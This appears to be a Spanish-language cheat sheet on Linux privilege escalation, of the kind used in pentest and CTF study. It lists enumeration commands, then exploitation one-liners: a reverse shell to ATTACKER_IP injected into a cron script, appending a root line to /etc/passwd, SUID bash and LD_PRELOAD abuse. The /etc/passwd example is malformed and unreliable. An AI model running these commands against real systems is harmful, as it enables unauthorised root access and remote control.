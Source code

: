 # Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
```

### 2️⃣ Usuarios y grupos

```bash
whoami                     # Usuario actual
id                          # Grupos del usuario actual
who -a                      # Usuarios conectados
cat /etc/passwd            # Lista de usuarios
cat /etc/shadow            # Hashes de contraseñas (requiere root)
sudo -l                    # Comandos sudo disponibles
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null   # Binarios con SUID
find / -perm -2000 2>/dev/null   # Binarios con SGID
find / -type f -writable 2>/dev/null  # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null  # Historial de comandos
```

### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root           # Procesos ejecutados por root
ps -ef | grep <proceso>      # Información de un proceso específico
lsof -i                     # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
/bin/bash -p                     # Ejecutar bash con privilegios SUID
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa
```

### 6️⃣ Explotación de procesos en ejecución

```bash
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```
